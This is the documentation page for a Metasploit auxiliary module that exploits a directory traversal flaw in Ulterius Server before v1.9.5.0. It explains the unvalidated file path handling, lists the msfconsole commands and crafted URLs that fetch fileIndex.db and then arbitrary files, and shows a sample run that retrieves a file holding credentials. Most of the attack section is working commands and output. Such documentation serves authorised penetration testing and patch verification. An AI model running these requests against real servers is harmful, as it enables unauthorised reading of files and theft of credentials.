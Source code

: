 ## Overview

This module exploits a directory traversal vulnerability in [Ulterius Server < v1.9.5.0](https://github.com/Ulterius/server/releases). The directory traversal flaw occurs in Ulterius Server's HttpServer.Process function call. While processing file requests, the HttpServer.Process function does not validate that the requested file is within the web server's root directory or a subdirectory.

## Verification Steps

- [ ] Install Ulterius Server < v1.9.5.0
- [ ] `./msfconsole`
- [ ] `use auxiliary/admin/http/ulterius_file_download`
- [ ] `set index true`
- [ ] `set targeturi '/…/fileIndex.db'`
- [ ] `set rhost <rhost>`
- [ ] `run`
- [ ] Verify loot contains file system paths from remote file system.
- [ ] `set index false`
- [ ] `set targeturi '/C:/<path>/<to>/<file>'`
- [ ] `run`
- [ ] Verify contents of file

## Exploiting the Vulnerability 

When requesting a file, a relative or absolute file path is needed so the appropriate request can be generated. Fortunately, Ulterius Server creates a file called fileIndex.db, which contains filenames and directories located on the server. By requesting fileIndex.db and parsing the retrieved data, absolute file paths can be retrieved for files hosted on the server. Using the information retrieved from parsing fileIndex.db, additional requests can be generated to download desired files.

As noted in the [EDB PoC](https://www.exploit-db.com/exploits/43141/), the fileIndex.db is usually located at:

`http://ulteriusURL:22006/.../fileIndex.db`

Note: 22006 was the default port after setting up the Ulterius Server.

After retrieving absolute paths for files, the files can be retrieved by sending requests of the form:

`http://ulteriusURL:22006/<DriveLetter>:/<path>/<to>/<file>`

Note: The [EDB PoC](https://www.exploit-db.com/exploits/43141/) used relative paths to download files but absolute paths can be used on Windows-platforms as well, because the HttpServer.Process function made use of the [Path.Combine](https://msdn.microsoft.com/en-us/library/fyy7a5kt(v=vs.110).aspx) function.

> If *path2* includes a root, *path2* is returned. 

## Example Execution

This module was testing on Windows 7 SP1 x64.

```
msf5 auxiliary(admin/http/ulterius_file_download) > options

Module options (auxiliary/admin/http/ulterius_file_download):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   INDEX      false            no        Attempt to retrieve and parse fileIndex.db
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                       yes       The target address
   RPORT      22006            yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The path of the web application
   VHOST                       no        HTTP server virtual host

msf5 auxiliary(admin/http/ulterius_file_download) > set index true
index => true
msf5 auxiliary(admin/http/ulterius_file_download) > set targeturi '/.../fileIndex.db'
targeturi => /.../fileIndex.db
msf5 auxiliary(admin/http/ulterius_file_download) > set rhost 172.22.222.122
rhost => 172.22.222.122
msf5 auxiliary(admin/http/ulterius_file_download) > run

[*] Starting to parse fileIndex.db...
[*] Remote file paths saved in: filepath
[*] Auxiliary module execution completed
msf5 auxiliary(admin/http/ulterius_file_download) > set index false
index => false
msf5 auxiliary(admin/http/ulterius_file_download) > set targeturi '/C:/users/pwnduser/desktop/tmp.txt'
targeturi => /C:/users/pwnduser/desktop/tmp.txt
msf5 auxiliary(admin/http/ulterius_file_download) > run

[*] Username: pwnduser
Password: pleasedonthackme
^not the actual password... nice try
[*] Auxiliary module execution completed
msf5 auxiliary(admin/http/ulterius_file_download) > 
```
